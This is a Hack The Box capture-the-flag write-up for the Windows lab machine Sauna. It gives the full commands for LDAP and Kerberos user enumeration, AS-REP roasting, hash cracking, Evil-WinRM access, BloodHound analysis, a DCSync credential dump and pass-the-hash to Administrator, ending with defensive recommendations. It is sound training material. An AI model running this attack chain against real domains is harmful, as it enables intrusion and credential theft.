# HTB - Sauna

**IP Address:** `10.10.10.175`  
**OS:** Windows  
**Difficulty:** Easy  
**Tags:** #ActiveDirectory, #Kerberos, #LDAP, #ASREP-Roasting, #WinRM, #BloodHound, #DCSync

---
## Synopsis

Sauna is an easy Windows machine focused on Active Directory exploitation.  
It involves enumerating users via LDAP, exploiting an **AS-REP Roasting** vulnerability to crack credentials, gaining access through **WinRM**, and escalating privileges to Domain Administrator by abusing a **DCSync attack** detected with BloodHound.

---
## Skills Required

- Basic Active Directory enumeration  
- Familiarity with Kerberos authentication  
- Knowledge of password cracking with Hashcat/John  
- Experience with domain privilege escalation (BloodHound, DCSync)

## Skills Learned

- LDAP enumeration for users  
- User discovery and validation with Kerbrute  
- Exploiting AS-REP Roasting with Impacket tools  
- Using WinRM for remote access  
- Identifying attack paths in BloodHound and abusing DCSync

---
## 1. Initial Enumeration

### 1.1 Connectivity Test

We start by verifying if the target is alive:

```bash
ping -c 1 10.10.10.175
```



The host responds, confirming connectivity.

---
### 1.2 Port Scanning

We scan all ports with Nmap:

```bash
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.175 -oG allPorts
```

- `-p-`: Scan all 65,535 ports  
- `--open`: Show only open ports  
- `-sS`: SYN scan  
- `--min-rate 5000`: Increase speed  
- `-Pn`: Skip host discovery (already confirmed alive)  
- `-oG`: Output in grepable format



Extract open ports:

```bash
extractPorts allports
```



---
### 1.3 Targeted Scan

Using the discovered ports, we run a deeper service/version scan:

```bash
nmap -sCV -p53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49668,49673,49674,49677,49689,49696 10.10.10.175 -oN targeted
```

- `-sC`: Run default NSE scripts  
- `-sV`: Detect service versions  
- `-oN`: Output in human-readable format  

Let's check the result:

```bash
cat targeted -l java
```



**Findings:**

| Port   | Service      | Description                                   |
| ------ | ------------ | --------------------------------------------- |
| 53     | DNS          | Domain Name System                            |
| 80     | HTTP         | IIS Web Server                                |
| 88     | Kerberos     | Authentication protocol                       |
| 135    | MS RPC       | Microsoft RPC endpoint mapper                 |
| 139    | NetBIOS      | Legacy SMB session service                    |
| 389    | LDAP         | Directory Services (Active Directory)         |
| 445    | SMB          | File and printer sharing                      |
| 464    | kpasswd      | Kerberos password change service              |
| 593    | RPC over HTTP| Remote administration service                 |
| 636    | LDAPS        | Secure LDAP                                   |
| 3268   | Global Catalog | AD Global Catalog                           |
| 5985   | WinRM        | Windows Remote Management                     |
| 9389   | AD Web Services | AD Web-based management interface          |
| 496xx  | Ephemeral    | Dynamic ports for RPC                         |

At this point, we confirm the host is a **Windows Domain Controller**.

---
## 2. User Enumeration

### 2.1 SMB & RPC Attempts

We test SMB and RPC enumeration, but null sessions are disabled:

```bash
crackmapexec smb 10.10.10.175
crackmapexec smb 10.10.10.175 --shares
smbmap -H 10.10.10.175 -u none
rpcclient -U "" 10.10.10.175 -N
```





No useful data obtained.

---
### 2.2 LDAP Enumeration

Query LDAP for naming contexts:

```bash
ldapsearch -x -H ldap://10.10.10.175 -s base namingcontexts
```



Enumerating the domain:

```bash
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL'
```

Filtering for CN entries:

```bash
ldapsearch -x -H ldap://10.10.10.175 -b 'DC=EGOTISTICAL-BANK,DC=LOCAL' | grep "dn: CN="
```



We discover a user **Hugo Smith**.

---
### 2.3 Kerberos User Validation

We create a wordlist of possible usernames:

```
hugosmith
hugo.smith
hsmith
h.smith
hugo.s
```

Validate with Kerbrute:

```bash
kerbrute userenum -d EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 users.txt 
```



The user **hsmith** is valid.

---
## 3. Foothold via AS-REP Roasting

### 3.1 Web Enumeration for More Users

Browsing the web service, we find more usernames in the **About Us** section:


Update the `users.txt` list and rerun Kerbrute:



We confirm the existence of **fsmith**.

---
### 3.2 Extracting AS-REP Hash

Using Impacket:

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -no-pass -usersfile users -dc-ip 10.10.10.175
```



We obtain an AS-REP hash for `fsmith`.

---
### 3.3 Cracking the Hash

Using Hashcat mode `18200` (Kerberos 5 AS-REP):

```bash
hashcat -m 18200 -a 0 hash_fsmith /usr/share/wordlists/rockyou.txt 
```



Password found: **Thestrokes23**

---
### 3.4 Validating Credentials

Check SMB and WinRM access:

```bash
crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```



Login is successful.

---
### 3.5 WinRM Access

We gain a shell with Evil-WinRM:

```bash
evil-winrm -i 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
```



🏁 **User flag obtained**

---
## 4. Privilege Escalation

### 4.1 Identifying New User

Check local groups:

```powershell
net localgroup "Remote Management Users"
```



We find another account: **svc_loanmgr**.

---
### 4.2 Credential Discovery with WinPEAS

Upload and run `winPEAS.exe`:



```powershell
.\winPEASx64.exe
```

Credentials for `svc_loanmgr` are revealed:


Validate with CrackMapExec:



---
### 4.3 Access as svc_loanmgr

```bash
evil-winrm -i 10.10.10.175 -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!'
```



We now have access as `svc_loanmgr`.

---
### 4.4 Domain Enumeration with BloodHound

Upload SharpHound:



Execute collection:

```powershell
.\SharpHound.exe -c All --Domain EGOTISTICAL-BANK.LOCAL --DomainController 10.10.10.175 --ZipFileName sauna_bh.zip
```



Download the ZIP and analyze in BloodHound:




The path reveals that `svc_loanmgr` has **DCSync privileges**.

---
### 4.5 Exploiting DCSync

Dump credentials with Impacket:

```bash
secretsdump.py EGOTISTICAL-BANK.LOCAL/svc_loanmgr@10.10.10.175
```



We extract the **Administrator NTLM hash**.

---
### 4.6 Administrator Access

Authenticate using Pass-the-Hash:

```bash
impacket-psexec EGOTISTICAL-BANK.LOCAL/Administrator@10.10.10.175 cmd.exe -hashes :823452073d75b9d1cf70ebdf86c7f98e
```



🏁 **Root flag obtained**

---
# ✅ MACHINE COMPLETE

---
## Summary of Exploitation Path

1. **LDAP Enumeration** → Discovered initial user (`hsmith`).  
2. **Kerberos Validation** → Confirmed valid accounts with Kerbrute.  
3. **AS-REP Roasting** → Extracted and cracked hash for `fsmith`.  
4. **WinRM Access** → Logged in as `fsmith`.  
5. **Privilege Escalation** → Discovered `svc_loanmgr` credentials with WinPEAS.  
6. **BloodHound Analysis** → Identified DCSync privileges.  
7. **DCSync Attack** → Extracted Administrator hash.  
8. **Pass-the-Hash with psexec** → Gained SYSTEM shell and root flag.

---
## Defensive Recommendations

- Enforce **Kerberos Pre-Authentication** for all users to prevent AS-REP Roasting.  
- Use **strong, complex passwords** to resist offline cracking.  
- Monitor for abnormal **Kerberos ticket requests**.  
- Regularly audit **domain user/group memberships**.  
- Restrict **DCSync rights** to only necessary accounts.  
